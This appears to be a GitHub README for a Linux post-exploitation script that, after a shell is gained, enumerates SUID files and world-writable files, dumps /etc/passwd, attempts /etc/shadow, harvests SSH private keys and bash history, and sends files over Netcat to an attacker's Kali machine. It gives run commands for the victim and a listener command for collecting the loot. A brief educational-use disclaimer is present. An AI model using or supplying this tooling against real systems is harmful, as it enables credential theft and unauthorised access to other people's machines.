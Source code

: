 # Victimfilesdownload_shell
Post-Exploitation Enumeration & Exfiltration Script (Linux os) 

it is about performing post-exploitation tasks after gaining a shell on a Linux system
(it can dowload permissions and resources on the victim machine)

-->Features: Enumerates SUID privilege escalation
-->Finds world-writable files  Dumps /etc/passwd, attempts /etc/shadow  
-->Locates SSH private keys and .bash_history  
-->Supports Netcat-based file exfiltration to attacker machine  

-->Pls Use for Educational Use Only 
or
-->use with permissions system only

How to Use (in your lab):

🖥️ On the Victim Machine (after gaining shell):

chmod +x post_exploitation_enum_and_exfil.sh

./post_exploitation_enum_and_exfil.sh <your-kali-ip> <port>

This will:

Enumerate SUID files, world-writable files

Dump /etc/passwd, try /etc/shadow

Search for SSH keys and .bash_history

Use Netcat to send /etc/passwd back to your Kali

On Your Kali (Attacker) Machine:
Start listener to receive the file:

nc -lvp <port> > passwd_loot.txt

